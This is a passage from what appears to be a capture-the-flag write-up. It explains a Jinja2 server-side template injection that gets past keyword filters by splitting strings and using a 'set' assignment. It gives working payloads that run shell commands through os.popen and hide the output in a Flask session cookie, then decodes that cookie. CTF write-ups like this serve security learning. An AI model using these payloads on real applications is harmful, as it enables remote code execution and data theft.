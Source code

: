 So basically, we can’t use `if` / `for` / `lipsum`.

Upon reading Jinja2 docs, I’ve found that we can use `Assignments` using the function `set`.

```py
{% set a=payload %}
```

As `lipsum` is filtered because of `sum`, we’ll use the payload that we created in the first challenge with `cycler`.

```py
cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('id')['rea' 'd']()
```

Our payload to exfiltrate the flag will be:

```py
session.update({'f':cycler['__ini' 't__']['__glo' 'bals__']['os']['popen']('tac /flag')['re' 'ad']()})
```

Our final payload is:

```py
{% set a=session.update({'f':cycler['__ini' 't__']['__glo' 'bals__']['os']['popen']('tac /flag')['re' 'ad']()}) %}
```

```
[len] 114
True
```

Now, we can use it and get the cookie containing the flag.

```shell
$ flask-unsign -d -c "eyJmIjoiY3Jld3s2NmM5MGMwNzkzYzQ1MmY2YjY4MA5ZWYxYzI4YM3OX0iLCJ1c2VyIjoiYWRtaW4ifQ.Y1v7AQ.5NZKstHzeVcckdiYqsLuOWfvLfw"
{'f': 'crew{66c90c0793c452f6b68209ef1c28ac79}', 'user': 'admin'}
```

This is all for this post, I hope you liked these two writeups!

